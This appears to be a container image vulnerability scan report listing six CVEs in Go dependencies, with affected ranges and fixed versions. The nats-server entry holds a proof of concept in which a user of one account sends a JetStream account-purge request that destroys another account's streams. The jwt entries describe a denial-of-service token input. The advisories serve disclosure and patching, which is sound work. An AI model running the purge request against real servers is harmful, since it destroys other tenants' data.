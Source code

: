 ```yaml
---
hide_table_of_contents: true
---
```


<table>
<tr><td>digest</td><td><code>sha256:1d58b22cf03eb031821858fc983c4e8ee0c5a8194cda68baca9c0a43f857eb44</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 1" src="https://img.shields.io/badge/critical-1-8b1924"/> <img alt="high: 3" src="https://img.shields.io/badge/high-3-e25d68"/> <img alt="medium: 2" src="https://img.shields.io/badge/medium-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/low-0-lightgrey"/> <!-- unspecified: 0 --></td></tr>
<tr><td>platform</td><td>linux/amd64</td></tr>
<tr><td>size</td><td>56 MB</td></tr>
<tr><td>packages</td><td>244</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 1" src="https://img.shields.io/badge/C-1-8b1924"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/nats-io/nats-server/v2</strong> <code>2.10.16</code> (golang)</summary>

<small><code>pkg:golang/github.com/nats-io/nats-server@2.10.16#v2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30215?s=github&n=v2&ns=github.com%2Fnats-io%2Fnats-server&t=golang&vr=%3E%3D2.2.0%2C%3C2.10.27"><img alt="critical 9.6: CVE--2025--30215" src="https://img.shields.io/badge/CVE--2025--30215-lightgrey?label=critical%209.6&labelColor=8b1924"/></a> <i>Improper Authorization</i>

<table>
<tr><td>Affected range</td><td><code>>=2.2.0<br/><2.10.27</code></td></tr>
<tr><td>Fixed version</td><td><code>2.10.27</code></td></tr>
<tr><td>CVSS Score</td><td><code>9.6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.032%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>7th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

## Advisory

The management of JetStream assets happens with messages in the `$JS.` subject namespace in the system account; this is partially exposed into regular accounts to allow account holders to manage their assets.

Some of the JS API requests were missing access controls, allowing any user with JS management permissions in any account to perform certain administrative actions on any JS asset in any other account. At least one of the unprotected APIs allows for data destruction. None of the affected APIs allow disclosing stream contents.

### Affected versions

NATS Server:
 * Version 2 from v2.2.0 onwards, prior to v2.11.1 or v2.10.27

-----

## Original Report

(Lightly edited to confirm some supposition and in the summary to use past tense)

### Summary

nats-server did not include authorization checks on 4 separate admin-level JetStream APIs: account purge, server remove,  account stream move, and  account stream cancel-move.

In all cases, APIs are not properly restricted to system-account users. Instead, _any_ authorized user can execute the APIs, including across account boundaries, as long as the current user merely has permission to publish on `$JS.>`.

Only the first seems to be of highest severity. All are included in this single report as they seem likely to have the same underlying root cause.

Reproduction of the `ACCOUNT.PURGE` case is below. The others are like it.


### Details & Impact

#### Issue 1: `$JS.API.ACCOUNT.PURGE.*`

Any user may perform an account purge of any other account (including their own).

Risk: total destruction of Jetstream configuration and data.


#### Issue 2: `$JS.API.SERVER.REMOVE`

Any user may remove servers from Jetstream clusters.

Risk: Loss of data redundancy, reduction of service quality.


#### Issue 3: `$JS.API.ACCOUNT.STREAM.MOVE.*.*` and `CANCEL_MOVE`

Any user may cause streams to be moved between servers.

Risk: loss of control of data provenance, reduced service quality during move, enumeration of account and/or stream names.

Similarly for `$JS.API.ACCOUNT.STREAM.CANCEL_MOVE.*.*`


#### Mitigations

It appears that users without permission to publish on `$JS.API.ACCOUNT.>` or `$JS.API.SERVER.>` are unable to execute the above APIs.

Unfortunately, in many configurations, an 'admin' user for a single account will be given permissions for `$JS.>` (or simply `>`), which allows the improper access to the system APIs above.


#### Scope of impact

Issues 1 and 3 both cross boundaries between accounts, violating promised account isolation. All 3 allow system level access to non-system account users.

While I cannot speak to what authz configurations are actually found in the wild, per the discussion in Mitigations above, it seems likely that at least some configurations are vulnerable.


#### Additional notes

It appears that `$JS.API.META.LEADER.STEPDOWN` does properly restrict to system account users. As such, this may be a pattern for how to properly authorize these other APIs.



### PoC

#### Environment

Tested with:
nats-server 2.10.26 (installed via homebrew)
nats cli 0.1.6 (installed via homebrew)
macOS 13.7.4


#### Reproduction steps

```
$ nats-server --version
nats-server: v2.10.26

$ nats --version
0.1.6

$ cat nats-server.conf
listen: '0.0.0.0:4233'
jetstream: {
  store_dir: './tmp'
}
accounts: {
  '$SYS': {
    users: [{user: 'sys', password: 'sys'}]
  },
  'TEST': {
    jetstream: true,
    users: [{user: 'a', password: 'a'}]
  },
  'TEST2': {
    jetstream: true,
    users: [{user: 'b', password: 'b'}]
  }
}

$ nats-server -c ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.494663 [INF] Using configuration file: ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.496395 [INF] Listening for client connections on 0.0.0.0:4233
...

# Authentication is effectively enabled by the server:
$ nats -s nats://localhost:4233 account info
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user sys --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user a --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user b --password wrong
nats: error: setup failed: nats: Authorization Violation

# Valid credentials work, and users properly matched to accounts:
$ nats -s nats://localhost:4233 account info --user sys --password sys
Account Information
                      User: sys
                   Account: $SYS
...

$ nats -s nats://localhost:4233 account info --user a --password a
Account Information
                           User: a
                        Account: TEST
...

$ nats -s nats://localhost:4233 account info --user b --password b
Account Information
                           User: b
                        Account: TEST2
...

# Add a stream and messages to account TEST (user 'a'):
$ nats -s nats://localhost:4233 --user a --password a stream add stream1 --subjects s1 --storage file --defaults
Stream stream1 was created
...

$ nats -s nats://localhost:4233 --user a --password a publish s1 --count 3 "msg {{Count}}"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"

# Messages are correctly persisted on account TEST, and not on TEST2:
$ nats -s nats://localhost:4233 --user a --password a stream ls
╭───────────────────────────────────────────────────────────────────────────────╮
│                                    Streams                                    │
├─────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name    │ Description │ Created             │ Messages │ Size  │ Last Message │
├─────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ stream1 │             │ 2025-03-02 11:48:49 │ 3        │ 111 B │ 46.01s       │
╰─────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://localhost:4233 --user b --password b stream ls
No Streams defined

$ du -h tmp/jetstream
  0B	tmp/jetstream/TEST/streams/stream1/obs
8.0K	tmp/jetstream/TEST/streams/stream1/msgs
 16K	tmp/jetstream/TEST/streams/stream1
 16K	tmp/jetstream/TEST/streams
 16K	tmp/jetstream/TEST
 16K	tmp/jetstream

# User b (account TEST2) sends a PURGE command for account TEST (user a).
# According to the source comments, user b shouldn't even be able to purge it's own account, much less another one.
$ nats -s nats://localhost:4233 --user b --password b request '$JS.API.ACCOUNT.PURGE.TEST' ''
11:54:50 Sending request on "$JS.API.ACCOUNT.PURGE.TEST"
11:54:50 Received with rtt 1.528042ms
{"type":"io.nats.jetstream.api.v1.account_purge_response","initiated":true}

# From nats-server in response to the purge request:
[90608] 2025/03/02 11:54:50.277144 [INF] Purge request for account TEST (streams: 1, hasAccount: true)

# And indeed, the stream data is gone on account TEST:
$ du -h tmp/jetstream
  0B	tmp/jetstream

$ nats -s nats://localhost:4233 --user a --password a stream ls
No Streams defined

```

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/golang-jwt/jwt/v5</strong> <code>5.2.1</code> (golang)</summary>

<small><code>pkg:golang/github.com/golang-jwt/jwt@5.2.1#v5</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30204?s=github&n=v5&ns=github.com%2Fgolang-jwt%2Fjwt&t=golang&vr=%3E%3D5.0.0-rc.1%2C%3C5.2.2"><img alt="high 8.7: CVE--2025--30204" src="https://img.shields.io/badge/CVE--2025--30204-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Asymmetric Resource Consumption (Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>>=5.0.0-rc.1<br/><5.2.2</code></td></tr>
<tr><td>Fixed version</td><td><code>5.2.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>5th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

Function [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) currently splits (via a call to [strings.Split](https://pkg.go.dev/strings#Split)) its argument (which is untrusted data) on periods.

As a result, in the face of a malicious request whose _Authorization_ header consists of `Bearer ` followed by many period characters, a call to that function incurs allocations to the tune of O(n) bytes (where n stands for the length of the function's argument), with a constant factor of about 16. Relevant weakness: [CWE-405: Asymmetric Resource Consumption (Amplification)](https://cwe.mitre.org/data/definitions/405.html)

### Details

See [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) 

### Impact

Excessive memory allocation

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/golang-jwt/jwt/v4</strong> <code>4.5.1</code> (golang)</summary>

<small><code>pkg:golang/github.com/golang-jwt/jwt@4.5.1#v4</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30204?s=github&n=v4&ns=github.com%2Fgolang-jwt%2Fjwt&t=golang&vr=%3C4.5.2"><img alt="high 8.7: CVE--2025--30204" src="https://img.shields.io/badge/CVE--2025--30204-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Asymmetric Resource Consumption (Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;4.5.2</code></td></tr>
<tr><td>Fixed version</td><td><code>4.5.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>5th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

Function [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) currently splits (via a call to [strings.Split](https://pkg.go.dev/strings#Split)) its argument (which is untrusted data) on periods.

As a result, in the face of a malicious request whose _Authorization_ header consists of `Bearer ` followed by many period characters, a call to that function incurs allocations to the tune of O(n) bytes (where n stands for the length of the function's argument), with a constant factor of about 16. Relevant weakness: [CWE-405: Asymmetric Resource Consumption (Amplification)](https://cwe.mitre.org/data/definitions/405.html)

### Details

See [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) 

### Impact

Excessive memory allocation

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/oauth2</strong> <code>0.26.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/oauth2@0.26.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22868?s=golang&n=oauth2&ns=golang.org%2Fx&t=golang&vr=%3C0.27.0"><img alt="high : CVE--2025--22868" src="https://img.shields.io/badge/CVE--2025--22868-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;0.27.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.27.0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.051%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>16th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An attacker can pass a malicious malformed token which causes unexpected memory to be consumed during parsing.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>gopkg.in/square/go-jose.v2</strong> <code>2.6.0</code> (golang)</summary>

<small><code>pkg:golang/gopkg.in/square/go-jose.v2@2.6.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-28180?s=github&n=go-jose.v2&ns=gopkg.in%2Fsquare&t=golang&vr=%3C%3D2.6.0"><img alt="medium 4.3: CVE--2024--28180" src="https://img.shields.io/badge/CVE--2024--28180-lightgrey?label=medium%204.3&labelColor=fbb552"/></a> <i>Improper Handling of Highly Compressed Data (Data Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;=2.6.0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.247%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>48th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact
An attacker could send a JWE containing compressed data that used large amounts of memory and CPU when decompressed by Decrypt or DecryptMulti. Those functions now return an error if the decompressed data would exceed 250kB or 10x the compressed size (whichever is larger). Thanks to Enze Wang@Alioth and Jianjun Chen@Zhongguancun Lab (@zer0yu and @chenjj) for reporting.

### Patches
The problem is fixed in the following packages and versions:
- github.com/go-jose/go-jose/v4 version 4.0.1
- github.com/go-jose/go-jose/v3 version 3.0.3
- gopkg.in/go-jose/go-jose.v2 version 2.6.3

The problem will not be fixed in the following package because the package is archived:
- gopkg.in/square/go-jose.v2

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/net</strong> <code>0.37.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/net@0.37.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22872?s=github&n=net&ns=golang.org%2Fx&t=golang&vr=%3C0.38.0"><img alt="medium 5.3: CVE--2025--22872" src="https://img.shields.io/badge/CVE--2025--22872-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')</i>

<table>
<tr><td>Affected range</td><td><code>&lt;0.38.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.38.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.016%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>2nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The tokenizer incorrectly interprets tags with unquoted attribute values that end with a solidus character (/) as self-closing. When directly using Tokenizer, this can result in such tags incorrectly being marked as self-closing, and when using the Parse functions, this can result in content following such tags as being placed in the wrong scope during DOM construction, but only when tags are in foreign content (e.g. <math>, <svg>, etc contexts).

</blockquote>
</details>
</details></td></tr>
</table>

